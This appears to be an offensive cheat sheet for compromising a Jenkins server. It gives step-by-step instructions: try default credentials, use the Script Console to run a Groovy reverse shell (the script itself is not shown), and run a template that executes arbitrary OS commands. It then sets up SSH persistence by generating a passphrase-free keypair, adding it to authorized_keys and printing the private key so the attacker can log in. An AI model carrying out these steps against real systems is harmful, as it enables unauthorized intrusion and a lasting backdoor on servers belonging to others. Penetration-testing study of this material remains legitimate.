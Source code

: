 # Jenkins Server Compromise

## Requirements: Access to a jenkins dashboard and script console

## Steps:

#### 1) Authenticate to the Jenkins instance. Try common credentials like: (jenkins:jenkins)

#### 2) Dashboard

#### 3) Manage Jenkins

#### 4) Script Console

#### 5) Setup listener

#### 6) Run a groovy reverse shell script

# Alternate Method: Create SSH Key-pair for SSH Access (Requires SSH port being open, and use this in case the reverse shell doesn't work)

## Command running template:

    def proc = "id".execute() (Replace the "id" value with any OS Command)

    def b = new StringBuffer()

    proc.consumeProcessErrorStream(b)

    println proc.text

    println b.toString()

## Command Steps:

#### 1) Show working directory

    pwd 

#### 2) Verify the home location of our user

    env 

#### 3) Build an .ssh directory

    mkdir .ssh 

#### 4) Create SSH keypair for our user. THE PASSPHRASE IS: ""

    ssh-keygen -t rsa -b 4096 -N \"\" -f .ssh/id_rsa 

#### 5) Copy the public SSH key to create the "authorized_keys" file

    cp .ssh/id_rsa.pub .ssh/authorized_keys 

#### 6) Print the private key to copy locally

    cat .ssh/id_rsa 

#### 7) Attacker: Give the correct permissions to use the key

    chmod 600 id_rsa 

#### 8) Attacker: SSH into the target user using the key

    ssh -i id_rsa USER@IP 
